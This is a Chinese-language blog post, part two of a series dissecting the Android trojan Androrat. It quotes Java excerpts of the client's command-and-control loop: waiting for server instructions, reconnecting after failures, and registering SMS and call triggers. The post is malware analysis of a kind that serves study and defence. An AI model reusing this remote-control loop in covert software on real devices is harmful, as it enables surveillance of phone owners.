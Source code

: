 ```yaml
---
layout: post
title: "剖析安卓木马Androrat（二）"
date: 2017-04-09 02:05:34 +0800
author: tang3
comments: true
categories: 技术
---
```


## 0x00 前言

上一篇文章我们分析了Androrat这个木马的Client核心代码，这次我们来聊一聊它是如何解析服务端发过来的命令然后执行的。

## 0x01 代码分析

首先我们从上篇文章中提到的onStartCommand函数的这段代码来开始：

```java
readthread = new Thread(new Runnable() { public void run() { waitInstruction(); } });
```

起一个线程运行waitInstruction方法，这个方法顾名思义，客户端等待服务端的指令，下面让我们来看一下代码：

```java
	public void waitInstruction() { //Le thread sera bloqué dedans
		try {
			for(;;) {
				if(stop)
					break;
				conn.getInstruction() ;
			}
		}
		catch(Exception e) { 
			isListening = false;
			resetConnectionAttempts();
			reconnectionAttempts();
			if(waitTrigger) {
				registerSMSAndCall();
			}
		}
	}
```

循环执行Connection的getInstruction来接收指令，直到stop成员变量被置为true。如果抛出异常，则尝试重新连接到服务端。下面我们接着来看Connection的getInstruction代码：

```java
	public ByteBuffer getInstruction() throws Exception
	{
		readInstruction = receive.read();
		
		if(dem.receive(readInstruction))
			readInstruction.compact();
		else
			readInstruction.clear();
		
		return readInstruction;
	}
```
